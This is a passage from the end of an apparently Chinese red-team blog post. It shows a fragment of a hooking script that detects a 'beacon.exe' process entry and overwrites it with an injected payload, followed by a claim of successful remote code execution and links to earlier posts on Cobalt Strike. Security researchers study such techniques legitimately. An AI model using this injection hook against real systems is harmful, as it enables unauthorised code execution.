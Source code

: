 ```
        },
        onLeave: function(retval) {
            if(this.szExeFile.readAnsiString() == &#34;beacon.exe&#34;) {
                send(&#34;[!] Found beacon, injecting payload&#34;);
                this.szExeFile.writeAnsiString(payload);
            }        
        }
    })
```

  
RCE成功，合影留念  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FFM6xZmmicJ2JG6GymicBYE8OfHesWIN1MDiba6YDLZo1pGNJhGjh1yG0w/640?wx_fmt=other&from=appmsg "")  
  
喜欢的朋友可以一键三连  
  
往期推荐  
  
  
[红队基础设施建设与改造（四）——深入解析Cobaltstrike（二开环境、认证过程分析、Beacon分析）](https://mp.weixin.qq.com/s?__biz=MzkwOTE3MzAxOA==&mid=2247485386&idx=1&sn=58bd4e0ea233075a6901ca1c18e458dc&scene=21#wechat_redirect)  
  
  
[MalleableC2配置详解](https://mp.weixin.qq.com/s?__biz=MzkwOTE3MzAxOA==&mid=2247484871&idx=1&sn=85dc63ec970621ccc35863a08e4aaade&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/qae1K3r24EZ0M9qZAia6YicddnOVklo3plxEyjBvMibxXN6KjoUsYcYIvibPwFPTRgsicpuJHMWZlRlDWkqMQcWLBsg/640?from=appmsg "")  
  
点击名片直接关注  
  
